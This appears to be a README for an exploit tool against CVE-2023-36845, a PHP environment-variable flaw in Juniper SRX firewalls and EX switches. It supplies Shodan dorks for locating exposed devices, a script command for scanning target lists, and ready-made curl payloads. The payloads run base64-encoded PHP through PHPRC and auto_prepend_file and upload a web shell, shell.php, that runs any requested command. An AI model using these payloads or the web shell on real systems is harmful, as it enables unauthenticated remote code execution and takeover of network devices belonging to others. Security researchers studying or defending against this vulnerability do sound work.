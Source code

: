 # CVE-2023-36845

![](https://img.shields.io/static/v1?label=Product&message=Juniper%20Web%20Device%20Manager&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=All%20versions%20prior%20to%2021.4R3-S5&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=Remote%20Code%20Execution&color=red)

## Description

CVE-2023-36845 represents a notable PHP environment variable manipulation vulnerability that impacts Juniper SRX firewalls and EX switches. While Juniper has categorized this vulnerability as being of medium severity, in this article, we will elucidate how this singular vulnerability can be leveraged for remote, unauthenticated code execution.

## Shodan dork:
```
title:"Juniper Web Device Manager"
```

```
title:"Juniper" http.favicon.hash:2141724739
```

## Usage
Detection
```
python3 CVE-2023-36845.py -f targets.txt -o output.txt
```

## RCE

### Option 1
Utilizing any protocol wrapper in conjunction with `auto_prepend_file` is feasible. The most suitable choice for this operation is the `data://` protocol, which allows inline provision of the "secondary file". Here's a sophisticated representation of this exploit, executing the embedded `<? phpinfo(); ?>` within the `data://` scheme:

```
curl "http://target.tld/?PHPRC=/dev/fd/0" --data-binary $'allow_url_include=1\nauto_prepend_file="data://text/plain;base64,PD8KICAgcGhwaW5mbygpOwo/Pg=="'
```
Execute `whoami` command

`<?php shell_exec('whoami'); ?>`
```
curl "http://target.tld/?PHPRC=/dev/fd/0" --data-binary $'allow_url_include=1\nauto_prepend_file="data://text/plain;base64,PD9waHAgc2hlbGxfZXhlYygnd2hvYW1pJyk7ID8+Cg=="'
```

### Option 2
Upload a file

`<?php if(isset($_REQUEST[cmd])){ echo "<pre>"; $cmd = ($_REQUEST[cmd]); system($cmd); echo "</pre>"; die; }?>`

```
$ curl http://target.tld/webauth_operation.php -d 'rs=do_upload&rsargs[]=[{"fileName": "shell.php", "fileData": ",PD9waHAgaWYoaXNzZXQoJF9SRVFVRVNUW2NtZF0pKXsgZWNobyAiPHByZT4iOyAkY21kID0gKCRfUkVRVUVTVFtjbWRdKTsgc3lzdGVtKCRjbWQpOyBlY2hvICI8L3ByZT4iOyBkaWU7IH0/Pgo=
", "csize": 110}]'
```

## Parameters

Parameter | Description | Type
------------ | ------------- | -------------
--file / -f | Input targets file | File
-o | Output file | File


